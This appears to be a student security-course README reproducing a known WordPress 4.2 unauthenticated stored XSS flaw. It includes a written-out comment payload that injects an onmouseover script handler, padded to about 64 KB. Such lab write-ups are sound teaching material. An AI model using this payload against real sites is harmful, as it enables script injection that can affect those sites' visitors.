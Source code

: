 # Codepath-Week-7

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
- Summary: 
	- Tested in version: 4.2
	- Fixed in version: 4.2.1
	- Type of Vulnerability: XSS
	- Sourcecode/walkthrough: https://klikki.fi/adv/wordpress2.html
- Steps to recreate:
	- Create a comment on website with a string following the format: <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
<img src="XSS - Unauthenticated Stored XSS.gif" width="800">
